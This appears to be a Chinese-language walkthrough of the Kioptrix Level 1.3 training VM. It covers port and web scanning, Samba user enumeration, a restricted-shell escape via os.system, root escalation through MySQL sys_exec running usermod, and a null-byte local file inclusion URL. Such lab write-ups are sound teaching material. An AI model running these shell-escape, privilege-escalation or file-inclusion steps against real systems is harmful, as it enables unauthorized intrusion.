

# Kioptrix Level 1.3

下载地址：

```
https://download.vulnhub.com/kioptrix/Kioptrix4_vmware.rar
```

## 实战操作

压缩包解压后，发现只有一个虚拟硬盘，需要打开一个虚拟机加入这块硬盘

 (1) (1) (1) (1).png>)

把原来的硬盘删掉，添加这块硬盘

 (1) (1) (1) (1) (1) (1) (1) (1).png>)

增加成功

 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

扫描到靶机IP：`192.168.0.11`。

扫描端口

```
┌──(root💀kali)-[~]
└─# nmap -sV -p1-65535 192.168.0.11                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-18 07:51 EST
Nmap scan report for 192.168.0.11
Host is up (0.0019s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:C1:84:47 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds
```

扫描网站看看有啥值得注意

```
┌──(root💀kali)-[~]
└─# nikto -h http://192.168.0.11/                                                                                                                                                                                                       1 ⨯
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.11
+ Target Hostname:    192.168.0.11
+ Target Port:        80
+ Start Time:         2021-12-18 07:54:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 98933, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie PHPSESSID created without the httponly flag
+ 8724 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2021-12-18 07:54:19 (GMT-5) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Samba枚举，枚举到几名用户

```
┌──(root💀kali)-[~]
└─# enum4linux   192.168.0.11
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\loneferret (Local User)
S-1-22-1-1001 Unix User\john (Local User)
S-1-22-1-1002 Unix User\robert (Local User)
```

msf内置Samba枚举脚本

```
msf6 > use auxiliary/scanner/smb/smb_enumusers
msf6 auxiliary(scanner/smb/smb_enumusers) > set rhosts 192.168.0.11
rhosts => 192.168.0.11
msf6 auxiliary(scanner/smb/smb_enumusers) > run

[+] 192.168.0.11:139      - KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] 192.168.0.11:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

进入到web系统，发现有登录框，测试发现使用上面扫描到用户，可以爆出来用户密码

 (1) (1) (1) (1) (1) (1) (1).png>)

使用上面的账号和密码，ssh登录进去。

进入终端模式

```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

查看页面，找到MySQL密码

 (1) (1) (1) (1).png>)

使用mysql提权

```
mysql> select sys_exec("usermod -aG admin john");
+------------------------------------+
| sys_exec("usermod -aG admin john") |
+------------------------------------+
| NULL                               | 
+------------------------------------+
1 row in set (0.05 sec)
```

提权成功

```
john@Kioptrix4:~$ sudo su root
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

查看祝贺信息

```
root@Kioptrix4:/home/john# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

**本地文件包含思路**

输入index.php可以看到报错信息里面是存在include调用

 (1) (1) (1).png>)

直接无法访问

 (1) (1) (1) (1) (1) (1).png>)

需要加`%00`进行截断

 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
http://192.168.0.11/member.php?username=/proc/self/fd/9%00
```

 (1) (1) (1) (1) (1) (1).png>)

 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)


